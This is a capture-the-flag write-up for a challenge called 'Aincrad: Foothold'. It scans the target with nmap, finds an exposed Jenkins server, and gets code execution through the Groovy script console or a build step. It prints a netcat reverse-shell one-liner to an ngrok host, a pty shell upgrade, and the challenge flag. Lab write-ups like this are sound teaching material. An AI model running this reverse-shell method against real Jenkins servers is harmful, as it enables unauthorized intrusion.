 ### Aincrad: Foothold
###### Description: Hello Hackers We are RATH we got an old sao server running. Hack your way in.

###### aincrad.cybsec.in

###### NOTE:- 22PORT IS OUT OF SCOPE SO DONT WASTE TIME PLEASE NO DIRBUST AND BRUTEFORCE IT IS NOT REQUIRED. THE MACHINE IS JUST EXPERIMENTAL SO IT WILL RESET EVERY 1 HOUR JUST VOTE IN THE RESPECTIVE DISCORD FOR RESETS.

---
Let's start off with an Nmap scan-

**Command:**
```bash
nmap -T4 -v -oN nmap/nmap.out aincrad.cybsec.in
```
**Results:**
```
PORT     STATE    SERVICE
22/tcp   open     ssh
53/tcp   open     domain
80/tcp   open     http
2000/tcp open     cisco-sccp
5060/tcp open     sip
5061/tcp filtered sip-tls
8008/tcp open     http
8010/tcp open     xmpp
8080/tcp open     http-proxy
```
We know that ssh is out of scope. Taking a look at port 80, I found nothing of interest.

But if we go to port 8080, however, we see **Jenkins**. Jenkins is an open source automation server that's used to automate tasks related to building, testing and deploying applications, among other things.

We can use this to get code execution on the server, and consequently, get a shell. Now, there were 2 ways to do this.

> Note: If you cannot do port forwarding for some reason (like you're using mobile hotspot instead of a router), or you just don't want to, you can use [ngrok](https://ngrok.com/ "ngrok").

For the first one, we could go to `aincrad.cybsec.in:8080/script`. This would take us to a page where we could write a [Groovy script](https://groovy-lang.org/index.html "Groovy script") and use that to get a shell using something like this-

```
cmd = "nc 2.tcp.ngrok.io 48215 -e /bin/bash/"
cmd.execute()
```
---
I'm going to show the second method (the longer one) in more detail because that's the one I have screenshots of. So here goes-

When we visited port 8080, we were greeted by something like this-

![](./images/ss1.jpeg)

If we clicked on "New Item" or "Create a job", we were taken to the following screen-

![](./images/ss2.jpeg)

Gave it a name, selected freestyle project, and clicked ok. Now, there was an option to add a build step, where we could tell it to execute a shell script.

![](./images/ss3.jpeg)

We can easily get a shell back using something like the following command-

![](./images/ss4.jpeg)

After saving, we have now successfully created a project. Now, when we click on "Build now", we can get the server to execute the shell command we gave it during the creation of the project. Setting up the `nc` listener in advance and clicking "Build now", we have the shell.

![](./images/ss5.jpeg)

Now, we can easily upgrade the shell by using the following command-

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```
Running `whoami` tells us that we are `jenkins`, which makes sense since that's what we used to get our shell. Now looking in jenkins' home directory, one of the files that stood out was named **`jenkins.txt`**.

If we do `cat jenkins.txt`, we have our foothold flag!

**pCTF{gr00vy_1s_n0_fun}**
